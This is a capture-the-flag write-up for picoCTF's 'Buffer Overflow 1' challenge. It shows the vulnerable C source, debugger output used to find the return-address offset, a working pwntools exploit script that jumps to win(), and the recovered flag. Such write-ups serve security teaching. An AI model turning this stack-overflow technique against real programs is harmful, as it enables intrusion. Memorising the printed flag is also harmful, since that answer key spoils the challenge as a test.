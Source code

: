 # Buffer Overflow 1

## Overview:

Category: Binary Exploitation
Points: 200

## Description

Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the program. You can view source [here](./vuln.c). And connect with it using `nc saturn.picoctf.net 49618`

## Hints

1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Approach

Lets look at the code:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

So we notice here that there is a dangerous `gets(buf);` function. Automatically we should be able to determine that we can overflow the buffer here. Now its just a matter of finding out the padding and what we want to change our return instruction pointer address to. And we know that the `win()` function will go ahead and output that flag for us.


## Attack

So we need to figure out a few things before we launch our attack.

1. The offset for our overflow.
2. The address of the win() function.

Launching pwngdb we can easily find the address of the win function:

```text
pwndbg> disassemble win
Dump of assembler code for function win:
   0x080491f6 <+0>:     endbr32
   0x080491fa <+4>:     push   ebp
   0x080491fb <+5>:     mov    ebp,esp
   0x080491fd <+7>:     push   ebx
   0x080491fe <+8>:     sub    esp,0x54
   0x08049201 <+11>:    call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049206 <+16>:    add    ebx,0x2dfa
   0x0804920c <+22>:    sub    esp,0x8
   0x0804920f <+25>:    lea    eax,[ebx-0x1ff8]
   0x08049215 <+31>:    push   eax
   0x08049216 <+32>:    lea    eax,[ebx-0x1ff6]
   0x0804921c <+38>:    push   eax
   0x0804921d <+39>:    call   0x80490c0 <fopen@plt>
   0x08049222 <+44>:    add    esp,0x10
   0x08049225 <+47>:    mov    DWORD PTR [ebp-0xc],eax
   0x08049228 <+50>:    cmp    DWORD PTR [ebp-0xc],0x0
   0x0804922c <+54>:    jne    0x8049258 <win+98>
   0x0804922e <+56>:    sub    esp,0x4
   0x08049231 <+59>:    lea    eax,[ebx-0x1fed]
   0x08049237 <+65>:    push   eax
   0x08049238 <+66>:    lea    eax,[ebx-0x1fd8]
   0x0804923e <+72>:    push   eax
   0x0804923f <+73>:    lea    eax,[ebx-0x1fa3]
   0x08049245 <+79>:    push   eax
   0x08049246 <+80>:    call   0x8049040 <printf@plt>
   0x0804924b <+85>:    add    esp,0x10
   0x0804924e <+88>:    sub    esp,0xc
   0x08049251 <+91>:    push   0x0
   0x08049253 <+93>:    call   0x8049090 <exit@plt>
   0x08049258 <+98>:    sub    esp,0x4
   0x0804925b <+101>:   push   DWORD PTR [ebp-0xc]
   0x0804925e <+104>:   push   0x40
   0x08049260 <+106>:   lea    eax,[ebp-0x4c]
   0x08049263 <+109>:   push   eax
   0x08049264 <+110>:   call   0x8049060 <fgets@plt>
   0x08049269 <+115>:   add    esp,0x10
   0x0804926c <+118>:   sub    esp,0xc
   0x0804926f <+121>:   lea    eax,[ebp-0x4c]
   0x08049272 <+124>:   push   eax
   0x08049273 <+125>:   call   0x8049040 <printf@plt>
   0x08049278 <+130>:   add    esp,0x10
   0x0804927b <+133>:   nop
   0x0804927c <+134>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x0804927f <+137>:   leave
   0x08049280 <+138>:   ret
End of assembler dump.
pwndbg>
```

We can see here that the first address (AKA, the address of the function) is here at `0x080491f6`.
Now to find the offset. 

```text
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────
*EAX  0x41
*EBX  0x6161616a ('jaaa')
*ECX  0xffffce1c ◂— 0x13bc2000
*EDX  0x1
*EDI  0xf7ffcba0 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049350 (__libc_csu_init) ◂— endbr32 
*EBP  0x6161616b ('kaaa')
*ESP  0xffffcea0 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*EIP  0x6161616c ('laaa')
```

Using `cyclic 100` as our input, we can identify where we need to overwrite to using the letters that are stored in the EIP.

```text
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

Now knowing the address we need to reach and the padding required, we can write a solve script:

```c
from pwn import *

conn = remote("saturn.picoctf.net", 49618)
<!-- padding required to overwrite return pointer -->
overflow_num = 44
<!-- address of win() -->
win = 0x080491f6

payload = b'A' * overflow_num 
payload += (p32(win))

conn.sendlineafter(b'Please enter your string: ' ,payload)
print("flag:",conn.recvall().split(b"\n")[-1].decode())
```

Note: p32 is essentially correcting the input of the address into little endian. for example: "\xf6\x91\x04\x08"


```text
$ python solve.py
    [+] Opening connection to saturn.picoctf.net on port 49618: Done
    [+] Receiving all data: Done (101B)
    [*] Closed connection to saturn.picoctf.net port 49618
    flag: picoCTF{addr3ss3s_ar3_3asy_b15b081e}
```

## Flag

picoCTF{addr3ss3s_ar3_3asy_b15b081e}